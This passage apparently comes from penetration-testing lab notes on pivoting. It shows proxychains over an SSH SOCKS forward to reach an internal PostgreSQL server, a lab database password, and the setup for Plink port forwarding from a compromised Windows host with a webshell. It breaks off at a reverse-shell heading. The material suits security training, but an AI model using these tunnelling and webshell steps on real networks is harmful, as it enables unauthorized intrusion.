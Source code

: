 {% tab title="3. Confirm & Connect" %}
{% code overflow="wrap" %}
```bash
# confirm on Kali
$ sudo netstat -ntlp | grep 9998
tcp        0      0 127.0.0.1:9998  0.0.0.0:*       LISTEN      98/sshd-session: x7
tcp6       0      0 ::1:9998        :::*            LISTEN      98/sshd-session: x7

# config proxychains
$ tail -n1 /etc/proxychains.conf
socks5  127.0.0.1 9998

# connect to PGDATABASE01
$ sudo proxychains psql -h 10.4.177.215 -U postgres
...
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.177.215:5432  ...  OK
Password for user postgres: # D@t4basePassw0rd!
...

postgres=#
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Plink

OpenSSH might be intentionally removed from Windows machines, but other remote tools might be available. Plink is PuTTY's CLI version. On this scenario:

* `MULTISERVER03` (`192.168.177.64`) has TCP port `80` exposed.
* All other inbound ports are blocked (no RDP).
* `MULTISERVER03` is compromised and we got a webshell at `/umbraco/forms.aspx`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252Fgr0gunGOqNliUNLqH7dz%252Fport_forward_plink.png%3Falt%3Dmedia%26token%3D9aefbf42-c19b-4ed9-a487-c28891a5028e&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=5f4a66ab&#x26;sv=2" alt=""><figcaption></figcaption></figure>

We will first need to make sure that our SSH server is configured appropriately, i.e., the `GatewayPorts` and `AllowTcpForwarding` settings are set to `yes`. If there aren't and we change them, we will need to restart `ssh` for the changes to take place.

```bash
# Check SSH configuration
$ cat /etc/ssh/sshd_config | grep GatewayPorts
GatewayPorts yes
$ cat /etc/ssh/sshd_config | grep AllowTcpForwarding
AllowTcpForwarding yes
# Restart SSH service
$ sudo service ssh restart
```

{% tabs %}
{% tab title="1. Reverse Shell" %}
Send a reverse shell to Kali through the web shell on `MULTISERVER03:80`.

